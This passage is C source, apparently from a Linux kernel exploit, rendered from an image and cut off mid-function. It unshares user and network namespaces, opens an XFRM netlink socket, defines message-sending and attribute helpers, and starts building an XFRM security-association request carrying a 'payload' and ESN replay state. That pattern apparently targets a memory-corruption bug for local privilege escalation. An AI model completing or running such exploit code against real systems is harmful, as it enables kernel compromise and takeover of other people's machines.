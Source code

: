 ```c
	struct xfrm_aevent_id id;
	char buf[2048];
};
struct req_newsa {
	struct nlmsghdr n;
	struct xfrm_usersa_info xsinfo;
	char buf[2048];
};
void create_ns(void)
{
	if(unshare(CLONE_NEWUSER | CLONE_NEWNET) != 0) {
		perror("unshare(CLONE_NEWUSER)");
		exit(1);
	}
}
int create_netlink_socket()
{
	int fd,err;
	fd = socket(AF_NETLINK,SOCK_RAW,NETLINK_XFRM);
	if( fd < 0) {
		perror("socket");
		return -1;
	}
	memset(&addr,0,sizeof(struct sockaddr_nl));
	addr.nl_family = AF_NETLINK;
	addr.nl_pid = 0; /* packet goes into the kernel */
	addr.nl_groups = XFRMNLGRP_NONE; /* no need for multicast group */
	return fd;
}
int send_msg(int fd,struct nlmsghdr *msg)
{
	int err;
	err = sendto(fd,(void *)msg,msg->nlmsg_len,0,(struct sockaddr*)&addr,
		     sizeof(struct sockaddr_nl));
	if (err < 0) {
		perror("sendto");
		return -1;
	}
	return 0;
}
int add_attr(struct nlmsghdr *n,int maxlen,int type,const void *data,int attrlen)
{
	struct nlattr *nl;
	int len = NLA_LENGTH(attrlen);
	nl = NLMSG_TAIL(n);
	nl->nla_type = type;
	nl->nla_len = len;
	memcpy(NLA_DATA(nl),data,attrlen);
	n->nlmsg_len =NLMSG_ALIGN(n->nlmsg_len) + NLA_ALIGN(len);
	return 0;
}
struct req_newsa *build_sa_frame(unsigned char *payload,u_int32_t size)
{
	struct req_newsa *r;
	in_addr_t src,dst;
	struct xfrm_mark mark = {0x0,0x0};
	struct xfrm_algo *algo;
	struct xfrm_replay_state_esn *esn;
	size_t esn_size;
	r = malloc(sizeof(struct req_newsa));
	if (!r) {
		perror("malloc");
		return NULL;
```